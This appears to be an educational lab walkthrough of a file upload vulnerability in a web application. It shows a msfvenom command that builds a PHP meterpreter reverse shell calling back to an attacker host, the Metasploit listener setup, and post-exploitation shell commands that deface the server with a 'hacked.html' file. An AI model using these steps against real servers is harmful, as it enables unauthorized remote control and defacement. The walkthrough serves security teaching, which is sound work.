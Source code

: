 # File Upload

In this example, we'll show the possibility of sending a malicious file to the Web application, and thereby compromise the server where it is hosted. For that we will use Metasploit to create a malicious payload.

![]

After a successful upload to the server, the web application shows a success message revealing the directory where the file was stored. It is also possible to verify that the application accepts as upload any type of file and not only an image.

Since the form allows uploads of other types of files, we will create a malicious file and send it to the server through this upload mechanism. To do this, we'll use "**Metasploit**", which through the application "`msfvenom`" allows the creation of malicious payloads.

With the following command it is possible to create a "**reverse shell**", in PHP, which when executed opens a connection between the server and the attacker's machine, allowing the attacker to control it.

    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.8.141 LPORT=4444 R > malicious_payload.php

    No platform was selected, choosing Msf::Module::Platform::PHP from the payload
    No Arch selected, selecting Arch: php from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 949 bytes

Then you need to edit the payload (malicious_payload.php), and remove the initial comment, and save the file again.

Next we'll use Metasploit to create a service that listens for the connection from the attacker's malicious script.

    msfconsole
    use exploit/multi/handler
    set PAYLOAD php/meterpreter/reverse_tcp
    set LHOST 192.168.1.141
    set LPORT 4444
    exploit

    [*] Started reverse handler on 192.168.1.155:4444 
    [*] Starting the payload handler...

It is then possible to upload the malicious script to the application and the server.

Once the application reveals where it is stored, it is possible to go to that same directory, select the malicious script and run it.

After running the script, we can see in the Metasploit console (on the attacker's side) that it has received a connection from the victim (the web server, where the vulnerable application resides), and that it is now possible to use the `meterpreter` to perform actions on the victim.

In this "meterpreter" we can launch a shell on the remote machine and execute several commands there.

    shell

We can execute several commands there, including creating files with messages by the attacker.

    uptime
    pwd
    whoami
    w
    echo "Powned by SOMEONE!" > hacked.html

At the end we can see that a file "hacked.html" was created on the server.
 
When we click on that file, we can see the message that was placed there!
